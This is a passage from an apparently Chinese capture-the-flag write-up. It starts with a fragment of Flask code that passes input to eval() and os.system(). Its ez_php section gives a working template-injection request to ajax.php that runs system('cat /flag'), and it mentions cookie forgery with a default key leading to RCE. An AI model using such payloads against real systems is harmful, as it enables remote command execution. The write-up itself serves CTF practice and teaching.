 ```python
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
        return str(data)
    else:
        return "waf!!"



    

if __name__ == "__main__":
    app.run(host='0.0.0.0',port=5000,debug = True)
```



## ez_php

这题有点逆天了说实话，公共环境，不会重置靶机，里面放了一堆人的**shell**

官方wp，要自己挖

```php
/ajax.php?fun=diy_save&tpl_file=["aya/template/default/header.html"]&diy={"t":["t","b98ca3bae0de94438ac693d1a16b9ca5_0","{\"pars\":\"t\",\"name\":\"t',''}{system('cat /flag')}{\"}"]}
```

还有一个是通过默认的密钥伪造cookie，然后利用已有的漏洞来rce

## ez_sql

同等wp



